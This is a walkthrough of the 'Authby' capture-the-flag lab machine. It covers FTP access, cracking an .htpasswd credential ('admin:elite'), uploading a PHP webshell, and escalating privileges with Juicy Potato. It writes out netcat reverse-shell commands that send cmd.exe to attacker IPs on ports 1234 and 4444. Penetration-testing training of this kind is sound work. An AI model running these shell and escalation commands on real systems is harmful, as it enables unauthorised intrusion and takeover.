# Authby

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

After scanning for open ports, i saw that i had ftp anonymous with plenty of files, let's see if there are some interesting stuff, i did not find anything interesting accesible&#x20;

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

But it does not work for the moment but i'm able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hackviser.com/tactics/pentesting/services/ftp#reverse-shell-over-website" %}

I'm able to upload a shell:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

In the admin share we got .htpasswd file:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the hash to admin:elite

looking at the web service:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

and we are able to log in:&#x20;

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

and i'm able to get a ping back:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

but no persistent shell so i need to make a better work

so i download this:

{% embed url="https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985" %}

and we're able to pop a webshell:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I tried running reverse shell commands and php and C and powershell but it was not&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i transfered nc.exe to the target and used it to make a bind shell:

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

since it's windows i have to bind to a cmd shell:

```
nc.exe 192.168.49.54 1234 -e cmd
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

It does not work and we see that this is a 32 bit system with the systeminfo command:

<figure><img src="../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

So i download juicy potato 32 bit and netcat:

{% embed url="https://github.com/k4sth4/Juicy-Potato/tree/main/x86" %}

```
C:\Temp>.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\Temp\nc.exe -e cmd.exe 192.168.49.63 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
